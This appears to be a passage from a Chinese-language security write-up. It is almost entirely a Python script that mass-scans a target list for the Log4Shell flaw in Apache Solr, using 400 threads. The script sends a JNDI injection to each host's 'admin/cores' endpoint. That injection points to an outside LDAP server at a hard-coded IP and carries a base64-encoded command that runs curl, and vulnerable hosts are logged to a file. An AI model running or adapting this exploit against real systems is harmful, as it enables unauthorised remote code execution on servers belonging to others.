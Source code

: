 
## 0x04批量探测漏洞，将上面筛选出来的urls.txt里的资产复制到targets.txt

```python
import requests
from  concurrent.futures import ThreadPoolExecutor
import urllib3

def POC(ip):

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Upgrade-Insecure-Requests":"1"
    }

    uri= f'admin/cores?action=${{jndi:ldap://47.116.182.94:1389/NnyEgRhDsm/Plain/Exec/eyJjbWQiOiJjdXJsIGh0dHBzOi8vaHR0cGJpbi5vcmcvaXAifQ==}}'

    url=ip+uri

    print(url+'\n')

    #proxies={"http":"http://127.0.0.1:8080","https":"http://127.0.0.1:8080"}

    try:
        urllib3.disable_warnings()
        # res =requests.post(url,headers=headers,data=data,verify=False,timeout=5)
        res =requests.get(url,headers=headers,verify=False,timeout=5)
        if   "responseHeader"  in res.text and "status" in res.text and "error" in res.text:
            print(f"\033[32m{url}:存在\033[0m")
            
            with open('urls.txt','a') as f:
                f.write(url+'\n')

        else:   
            print(f"\033[31m{url}:不存在\033[0m")
            print(res.text)
    except Exception as e:
        print('请求失败',e)

if __name__ == '__main__':


    with open ('targets.txt','r') as f:
        data=[]
        data = f.readlines()
        with ThreadPoolExecutor(400) as pool:
            for i in data:
                if 'http' not in i:
                    i = 'http://' + i 
                target= i.split('\n')[0]
                pool.submit(POC,target)
    
```
